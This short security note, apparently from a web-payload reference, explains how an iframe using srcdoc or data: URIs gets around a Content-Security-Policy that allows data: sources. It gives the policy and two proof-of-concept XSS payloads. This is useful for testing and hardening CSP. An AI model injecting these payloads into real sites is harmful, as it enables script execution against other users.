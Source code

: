 Attackers can use `<iframe>` to bypass the below CSP policy.
```html
<meta http-equiv="Content-Security-Policy" content="default-src 'self' data: *; connect-src 'self'; script-src 'self'">
```
```http
HTTP/1.1 200 OK
...
Content-Security-Policy: default-src 'self' data: *; connect-src 'self'; script-src 'self';
```

An iframe from the whitelisted domain must be allowed by the application in order to perform the bypass. An XSS attack can be easily facilitated by using the [srcdoc](https://www.w3schools.com/tags/att_iframe_srcdoc.asp) attribute of the iframe.

The following XSS payloads can then be used:
```html
<iframe srcdoc='<script src="data:text/javascript,alert(document.domain)"></script>'></iframe>
```
```html
<iframe src='data:text/html,<script defer="true" src="data:text/javascript,document.body.innerText=/hello/"></script>'></iframe>
```